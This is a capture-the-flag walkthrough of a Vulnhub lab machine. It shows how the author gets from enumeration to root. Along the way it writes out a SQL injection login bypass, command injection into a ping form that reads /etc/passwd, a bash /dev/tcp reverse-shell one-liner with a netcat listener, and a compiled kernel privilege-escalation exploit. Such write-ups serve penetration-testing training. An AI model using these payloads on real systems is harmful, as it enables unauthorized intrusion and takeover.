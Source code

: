 ```yaml
---
published: false
---
```

Vulnhub virtual machine; On the path to OSCP this box offered SQL-injection for login and a client side web application that was able to be manipulated to give a foothold to box. Classic enumeration of box to compile a priv-esc.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Enumeration

Find target on network

    netdiscover -r 192.168.56.104

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550535688380_image.png)


Target: 192.168.56.104

Nmap Scan

    nmap -sC -sV -oA nmap/kio2 192.168.56.104

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550535760771_image.png)


searchsploit search

    searchsploit 2.0.52

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550535863685_image.png)


*DoS is not useful in this scenario.*


Navigate to webpage

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550535971455_image.png)


Test for SQL injection
`username: admin' OR '1=1--`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550536679360_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550536701093_image.png)


*Successful injection! We are now face with some sort of client side PING tester.*


Testing a ping for localhost

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550536792128_image.png)


*Looks like we have successful command execution on box.*

# Remote Code Execution

Attempt to grab the passwd file by submitting:

    127.0.0.1; cat /etc/passwd

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550536981458_image.png)


Whoami

    127.0.0.1; whoami

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537060293_image.png)


*we are ‘apache’.*

# Reverse Shell

Setup Listener on port 9000

    nc -lvnp 9000

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537230094_image.png)


Attempt to setup a reverse connection with an easy one liner
`/bin/bash -i >& /dev/tcp/[ip_address]/[port] 0>&1`

how it works:
`*bash -i>&*`*: invoke bash with an interactive option*
`*/dev/tcp/[localhost]/9000*`*: redirect the session with the /dev/tcp device file*
`*0>&1*`*: use the standard output and redirect it to the standard input*


![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537329497_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537383681_image.png)


*connection established to box and we are ‘apache’.*

**Upgrade Half Shell to Full Shell**
Test for which python

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550537532715_image.png)

    python -c 'import pty; pty.spawn("/bin/bash")'
    press cntl+z 
    stty raw -echo
    fg (enter)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538483696_image.png)


# Priv-Escalation
Investigate the environment

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538055374_image.png)


*Running CentOS release 4.5 and Linux 2.6.9-55*

check searchsploit for vulnerabilties:

    searchsploit 2.6.x CentOS

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538460322_image.png)


*Interesting hit with Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10)*

Mirror exploit to directory

    searchsploit -m exploits/linux/local/9545.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538544092_image.png)


*Investigate/search for any random shell code and replace if needed.*

Get file over to target box with a SimpleHTTPServer

    python -m SimpleHTTPServer

Save file to memory of box as a good habit located at: `/dev/shm`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538796540_image.png)



Compile on box:

    gcc -o exploit 9545.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550538968289_image.png)


Change the chmod of the file `chmod 755 exploit`

# Root
Execute exploit

    ./exploit

![](https://d2mxuefqeaa7sj.cloudfront.net/s_A66121450A4ACE7CA1EAFDAB4E2C0EBA58B17C1F73A27D4C0B94DF8F7C1BC768_1550539029550_image.png)


Bring me the root!

-exec


